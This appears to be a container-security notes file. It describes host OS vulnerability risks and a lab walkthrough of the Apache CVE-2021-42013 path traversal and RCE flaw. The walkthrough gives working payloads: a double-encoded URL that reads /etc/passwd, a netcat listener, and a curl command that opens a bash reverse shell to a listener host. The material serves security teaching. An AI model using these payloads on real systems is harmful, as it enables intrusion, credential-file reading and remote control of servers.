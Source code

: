 # Container-Security (Docker & Kubernetes)
## Docker: OWASP Top 10
<details> 
<summary> 1: Host OS Vulnerabilities </summary>
- If Host OS have vulnerabilities, attacker can use it to gain access to containers and apps running inside them.
- Resolution: Regular patching of host OS, Usage of IDS, Firewall, Implement strict access controls

#### CVE-2021-42013 (Path Traversal + RCE + Reverse Shell Attack)
- An attacker could use a path traversal attack to map URLs to files outside the directories. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these pathes, this could allow for remote code execution.
- This issue affects Apache 2.4.49 and Apache 2.4.50 and not earlier versions.
- Path Traversal payload - ``` http://172.17.0.2:80/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd ```
- Actual payload After double URL decode - ``` http://172.17.0.2:80/cgi-bin/../../../../../../../etc/passwd ```
- References: https://github.com/twseptian/cve-2021-42013-docker-lab
- Netcat listening on ``` $ nc -lvnp 4444  ```
- RCE Payload: ``` $ curl -s --path-as-is -d "echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/172.17.0.1/4444 0>&1" "http://172.17.0.3:80/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/bash" ```
</details>
